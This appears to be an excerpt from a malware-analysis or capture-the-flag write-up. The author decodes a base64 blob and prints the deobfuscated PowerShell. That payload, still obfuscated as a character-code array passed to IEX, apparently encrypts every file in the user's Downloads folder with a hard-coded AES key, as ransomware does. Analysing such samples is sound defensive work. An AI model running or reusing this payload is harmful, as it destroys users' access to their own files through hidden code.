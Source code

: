 After running it I got a string that looked like base64. So I used CyberChef to decode it.  
It looks like powershell. However, it had more layers of obfuscation starting with lots of dots that I had to remove.  

The result looked something like this 

{% highlight powershell %}
 IEX( -joiN('36w97%32p61}32X34I36c72c79%77}69w92%92I100M111U119X110U108w111U97M100X115}34w13}10p13}10X91X82c101}102w108w101R99I116I105U111M110M46M65R115w115w101U109M98I108U121U93}58w58p40p39w76%111U39%43U39I97}100%70U105c39w43w39c108I101M39}41c46c73I110c118p111}107U101w40M40}40U40U34w123w48X125U123w49p53c125U123R49X50%125U123U49w48%125w123I51w125X123I49M52}125c123c49U54U125}123M57w125p123U52p125p123I50U125M123%49}49M125}123%49X51%125w123c54}125c123M53}125M123w56I125R123w49U55p125c123c49I125M123c55U125M34X45w102U32p39R67R58I107%98w51w87p73X39%44}39p98I39p44%39%119R111c114w39%44%39R102}116M39w44w39p98M51M70p114}97}109X101U39w44}39M83R121I115%116c101%39I44%39c98U51X39c44I39I46p100c108p108U39R44I39M109R39w44c39R84X107w39U44c39I98U51w77w105c99I114U111I115}111}39p44c39M107X107}39p44c39M83U107}39I44w39I98w51U118%50p46}48M46M53%48X55U50U55%107U39U44X39p46R39%44p39}78U68w79U87}39}44I39p78p69p39w44X39M46}87R101X39w41w41U46c34X82}69U112I96%76X97p99I101%34X40U40I91I67R72R97I82R93p49p48c55}43R91X67X72R97w82w93%57p56R43}91M67w72w97R82p93I53p49%41%44M91}115I116%114U105X78w103p93w91%67I72R97I82M93c57U50X41I41I41I32X124X32w38R40c34R123X48}125}123%49c125X34p32}45c102p32U39I111c117X116p45%39M44w39c110%117U108X108I39M41}13c10M13M10w13w10}46M40%34U123X50R125R123c49U125}123}48X125%34U32R45R102w39U45U67M104%105I108p100I73M116R101R109w39I44c39%101M116I39c44%39}71}39I41M32%45%80R97U116M104p32I36I97%32p124c32%38}40}34w123U50c125X123%48X125w123M49U125c34}45R102}39}99U104I45U79U98M39p44}39I106U101c99p116%39X44}39}70M111U114w101c97w39}41X32p123I13X10M9%36%101c114p116R32w61p32p36U95%46p34X70w85c96I76%76w110c65X77I69%34R32M43U32w40w34w123}48}125M123X49w125R123w50X125}34p45R102c32p39M46%101R39I44}39p110R39%44w39M99}101U100p39I41R13U10%9U36c115%116c117I102w102X32p61U32U38X40U34%123M49I125c123I50R125X123%48I125X34}45U102w39U116R39R44U39M71X101%116M45X67X111M110I39U44U39}116M101w110R39%41R32U36%95p46I34M102c117}96w76I108R110M97c77U101M34X13I10}9}13M10p9p36U100w114M116%32}61w32I91}83c121%115U116p101}109M46p67w111p110U118M101M114X116M93I58X58X40}39}70}39X43w39X114w111c109%66c97X115%101M39c43I39}54X39%43U39}52w83w116%114}105I110M39I43w39c103M39M41X46I73c110U118p111I107}101X40U40%34%123%48I125%123I51%125R123%50}125U123R49R125X123R53I125p123p52I125R34U45X102X32w39R83U70M39R44}39p48c98}110w77U119M98p84X78}51%97%68R78p83X39p44w39p73w39I44M39M82}67M101U51w39I44w39w81c61M61}39%44}39%102U39}41w41M13w10}9%36w114R32R61M32p38R40}34X123M50X125R123M49c125p123X48I125I123c51w125I34w32U45X102%32w39w98w39U44U39U79I39X44X39%110p101M119}45c39R44%39R106X101p99U116c39p41I32U40p34p123p49p48%125R123R53R125c123c49U125U123U48R125M123c57X125X123p51R125I123}54M125M123c55R125}123R50U125}123c52p125X123w56}125}34w45M102U39p101c99%117X114X105p116w39w44w39U46U83}39U44I39}100c97R101M39}44c39I103w114U39R44I39p108M77I97I110c39I44R39U121%115%116I101w109X39M44%39M97p112}104}121}46M82w105R106R39w44%39X110%39R44U39c97U103}101w100R39M44c39}121R46%67w114c121U112}116I111}39U44R39%83U39w41X32R13U10w9c36I99p32}61I32X36c114I46I40w39}67p114p101R39I43c39X97}116w101c69p110I39I43R39U99}114M121%39%43w39I112U116c111p39%43M39M114X39c41%46p73U110}118}111I107X101U40R36X100%114R116R44%32U40c49p46R46c49M54U41p41c13M10R9U36w109I115M32}61R32X38U40M34c123p50p125R123%49I125%123%48%125U34I45X102M32M39p99U116p39X44c39w98I106c101}39w44%39c110I101U119w45I79c39U41R32R40X34R123M51w125p123R49}125%123%48c125I123c50w125}34c45U102c32R39R116R39c44U39p79I46R77%101U109I111w114%121M83I39U44M39U114I101p97}109p39U44M39M73R39w41I13c10p9p36I99}115U32p61p32}38M40U34X123R48X125X123}49I125}123}50X125c34X32R45c102c39U110}39%44w39X101U119R45M39}44I39c79M98U106X101M99p116%39}41X32R40I34c123}50c125M123p52c125U123p53U125I123I48}125U123}55X125R123U49c125w123U57M125M123X51I125p123%56I125p123I54X125}34}32}45I102c39}67M114I121w39}44p39M103I39w44w39w83X39%44c39I67w114I121w112X116M39X44w39X101M99w117I114}105I39c44I39R116%121%46p39w44X39U97%109%39}44p39%112}116%111w39w44I39}111w83I116%114R101R39X44M39%114M97p112X104X121I46U39M41%32I36R109M115w44U36c99X44c40c34R123X48c125U123M49M125M34p45X102c39p87I39X44c39p114w105X116w101I39U41}13U10X9U36M115M119w32X61%32I38%40}34%123U49I125M123}50X125M123c48p125R34w45M102X32}39M116M39c44R39w110I101R119%39w44w39X45U79}98R106U101p99%39U41X32p40R34w123w48%125c123c50I125c123R52I125p123I49p125X123I51c125}34I32p45p102c32c39I73I79p39I44}39c97p109R39U44X39I46}83p116%114M39p44M39I87R114w105U116p101I114I39p44p39w101M39}41%32X36}99w115w13c10c9w36c115R119c46R40R39}87w114c105%116U39c43c39c101}39c41}46U73w110R118U111}107w101p40M36p115%116w117X102X102I41U13p10w9w36M115}119X46M40R39I67p39I43U39%108X111X115U101I39}41%46M73I110}118p111M107c101w40X41}13%10X9X36%99}115X46R40%39w67X39}43U39X108c111R115X101M39p41%46}73M110p118R111%107c101%40U41}13c10I9}36U109U115R46p40c39U67X108%111R115I39M43w39M101}39w41R46%73U110c118X111p107%101U40p41w13M10I9R36p114M46I40U39w67X108}101M97w39U43%39X114%39}41%46%73I110}118I111R107U101w40X41I13p10w9I91I98w121I116c101U91U93%93p36M117w116}115M32p61I32I36%109I115X46I40X39R84X111}65}114}39w43M39w114M97}121R39R41w46X73p110%118}111M107p101p40p41c13w10X9I91w105c111}46M102p105M108M101}93M58p58I40%39%87I39R43U39M114M105R116}101%39U43p39w65}108X39%43p39%108}39}43}39p66p121R116p101U115I39R41w46I73X110%118c111I107R101M40w36R101X114p116w44I36X117%116}115R41U13R10c125'.splIt('XwcIMp}UR%')| %{ ([cHar] [INT] $_)} ))
{% endhighlight %}
